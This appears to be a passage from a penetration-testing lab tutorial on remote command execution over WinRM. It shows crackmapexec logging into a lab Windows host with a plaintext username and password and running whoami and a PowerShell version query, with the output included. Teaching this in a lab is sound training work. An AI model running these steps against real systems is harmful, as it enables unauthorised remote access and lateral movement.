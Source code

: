 ## Command Execution Using WinRM

We can also execute commands with WinRM protocol. By default, WinRM listens on HTTP TCP port 5985 and HTTPS TCP port 5986. One particular thing about this protocol is that it does not require a user to be an administrator to execute commands. We can use the WinRM protocol if we are members of the Administrators group, if we are members of the Remote Management Users group or if we have explicit PowerShell Remoting permissions in the session configuration.

### **Command Execution using WinRM**

```shell-session
$ crackmapexec winrm 10.129.204.133 -u robert -p 'Inlanefreight01!' -x whoami

SMB         10.129.204.133  5985   MS01             [*] Windows 10.0 Build 17763 (name:MS01) (domain:inlanefreight.htb)
HTTP        10.129.204.133  5985   MS01             [*] http://10.129.204.133:5985/wsman
WINRM       10.129.204.133  5985   MS01             [+] inlanefreight.htb\robert:Inlanefreight01! (Pwn3d!)
WINRM       10.129.204.133  5985   MS01             [+] Executed command
WINRM       10.129.204.133  5985   MS01             inlanefreight\robert
```

### **PowerShell Command Execution via WinRM**

```shell-session
$ crackmapexec winrm 10.129.204.133 -u robert -p 'Inlanefreight01!' -X '$PSVersionTable'

SMB         10.129.204.133  5985   MS01             [*] Windows 10.0 Build 17763 (name:MS01) (domain:inlanefreight.htb)
HTTP        10.129.204.133  5985   MS01             [*] http://10.129.204.133:5985/wsman
WINRM       10.129.204.133  5985   MS01             [+] inlanefreight.htb\robert:Inlanefreight01! (Pwn3d!)
WINRM       10.129.204.133  5985   MS01             [+] Executed command
WINRM       10.129.204.133  5985   MS01             
Name                           Value                                                                                    
----                           -----                                                                                    
PSVersion                      5.1.17763.2268                                                                           
PSEdition                      Desktop                                                                                  
PSCompatibleVersions           {1.0, 2.0, 3.0, 4.0...}                                                                  
BuildVersion                   10.0.17763.2268                                                                          
CLRVersion                     4.0.30319.42000                                                                          
WSManStackVersion              3.0                                                                                      
PSRemotingProtocolVersion      2.3                                                                                      
SerializationVersion           1.1.0.1
```
